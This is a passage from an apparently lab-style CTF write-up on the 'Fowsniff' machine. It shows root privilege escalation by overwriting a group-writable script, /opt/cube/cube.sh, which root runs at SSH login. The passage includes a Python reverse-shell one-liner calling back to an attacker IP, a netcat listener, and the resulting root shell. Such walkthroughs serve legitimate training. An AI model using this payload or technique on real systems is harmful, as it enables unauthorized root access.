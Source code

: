 ```
#    This program is distributed in the hope that it will be useful,
#    but WITHOUT ANY WARRANTY; without even the implied warranty of
#    MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the
#    GNU General Public License for more details.
#
#    You should have received a copy of the GNU General Public License along
#    with this program; if not, write to the Free Software Foundation, Inc.,
#    51 Franklin Street, Fifth Floor, Boston, MA 02110-1301 USA.

#[ -r /etc/lsb-release ] && . /etc/lsb-release

#if [ -z "$DISTRIB_DESCRIPTION" ] && [ -x /usr/bin/lsb_release ]; then
#	# Fall back to using the very slow lsb_release utility
#	DISTRIB_DESCRIPTION=$(lsb_release -s -d)
#fi

#printf "Welcome to %s (%s %s %s)\n" "$DISTRIB_DESCRIPTION" "$(uname -o)" "$(uname -r)" "$(uname -m)"

sh /opt/cube/cube.sh
baksteen@fowsniff:/etc$
```

The script `cube.sh` is run by root. If we have write permission on it, we can get a reverse shell as root. Let's see if we have write permissions on it :  
```
baksteen@fowsniff:/etc$ ls -la /opt/cube/cube.sh 
-rw-rwxr-- 1 parede users 851 Mar 11  2018 /opt/cube/cube.sh
```

Since we are member of `users` group, we have write permissions on this file. Let's put a reverse shell in it :  
```
baksteen@fowsniff:/etc$ nano cube
baksteen@fowsniff:/etc$ echo "python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"10.14.32.60\",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);'" > /opt/cube/cube.sh
baksteen@fowsniff:/etc$
```

Let's run a netcat listener on port 1234 :  
```
attacker@AttackBox:~/Fowsniff_CTF$ nc -lnvp 1234
listening on [any] 1234 ...
```

Now, we can log out and log in again on SSH to make our reverse shell executed by root :  
```
attacker@AttackBox:~/Fowsniff_CTF$ nc -lnvp 1234
listening on [any] 1234 ...
connect to [10.14.32.60] from (UNKNOWN) [10.10.255.254] 48904
/bin/sh: 0: can't access tty; job control turned off
# whoami
root
#
```
